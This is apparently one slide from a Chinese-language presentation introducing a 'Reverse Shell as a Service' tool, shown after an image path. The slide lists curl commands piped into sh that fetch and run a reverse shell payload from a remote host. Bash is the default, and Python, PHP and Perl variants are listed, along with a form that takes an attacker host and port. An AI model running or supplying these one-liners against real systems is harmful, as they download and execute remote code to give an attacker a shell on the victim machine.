

特性（一）：Reverse Shell as a Service

默认使用 Bash
curl http://host:port/ | sh
curl http://host:port/attacker-host/attacker-port | sh
也可以选择其他语言
curl http://host:port/python | sh
curl http://host:port/php | sh
curl http://host:port/perl | sh
…